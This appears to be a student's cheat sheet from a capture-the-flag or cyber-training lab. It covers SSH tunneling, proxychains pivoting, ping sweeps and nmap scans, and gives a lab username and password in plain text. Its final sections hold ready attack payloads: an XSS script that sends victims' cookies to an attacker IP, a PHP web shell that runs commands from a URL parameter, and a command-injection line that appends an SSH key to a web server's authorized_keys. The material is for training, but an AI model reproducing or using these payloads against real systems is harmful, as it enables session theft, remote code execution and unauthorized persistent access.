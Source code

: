 #   SETUP
```
CTF Exploit Research HAS ONLY 1!!!!! ATTEMPT LEFT
https://sec.cybbh.io/public/security/latest/index.html
Stack Number	Username	  Password	        jump
2 	          ALFA-007-M 	SiatKd1eRB2Q4ns 	10.50.33.233 (only running ping from jump box)
http://10.50.20.103:8000/
Linux Ops 10.50.27.254               Windows Ops 10.50.31.208
```

#  NMAP
```
NMAP scripting engine location /usr/share/nmap/scripts
```
#  USAGE & EXAMPLES 
```
-nmap --script <filename>|<category>|<directory>
-nmap --script-help "ftp-* and discovery"
-nmap --script-args <args>
-nmap --script-args-file <filename>
-nmap --script-help <filename>|<category>|<directory>
-nmap --script-trace
```
#  Master Socket ssh to jump
```
ssh -MS /tmp/jump student@10.50.33.233
```
#  PingSweep
```
for i in {97..126}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
```
#  Set Up Dynamic Port forward 
```
-S for socket file
-O for forward options
-D9050 proxychains
requires a filler word to act as credentials (in this case its jump)
ssh -S /tmp/jump jump -O forward -D9050
```
#  Port Interro
```
proxychains nc <ip> <port>
```
#  Multiple port forward with Socket
```
ssh -S /tmp/jump jump -O forward -L1111:192.168.28.100:80 -L2222:192.168.28.100:2222 -L3333:192.168.28.111:80 -L5555:192.168.28.111:2222
```
#  SSH with Master Socket Tunnel
```
ssh -MS /tmp/t1 creds@127.0.0.1 -p 2222 
```
#  Assuming net net and new ports found
```
PingSweep
```
# port forward
```
ssh -S /tmp/t1 t1 -O forward -D9050 (previous dynamic port must be canceled ssh -S /tmp/jump jump -O cancel -D99050)
```
# nmap port scan
```
proxychains nmap <ip> (80 & 2222 found)
```
# port interro
```
proxychains nc <ip> <port>
```
# Port Forward
```
ssh -S /tmp/t1 t1 -O forward -L2323:ip:2222 -L4343:100.200.25.35:80
```
# Authenticate to new ssh with ssh
```
ssh -MS /tmp/t2 creds@127.0.0.1 -p 2323
```
# To get to fowarded web ports
```
On firefox type loopback followed by colon and fowarded port (127.0.0.1:port)
```
#  Proxychains with http script
```
proxychains nmap --script=http-enum.nse 192.168.28.100
```

```
<script>document.location="http://10.50.27.254:8000/"+document.cookie;</script>
```

#  Malicious file upload script
```
  <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```

#  upload copy of ssh rsa token
```
ssh-keygen  -t rsa -b 4096
cat rsa key
; echo "<rsa key>" >> /var/www/.ssh/authorized_keys
ssh into web server
```






































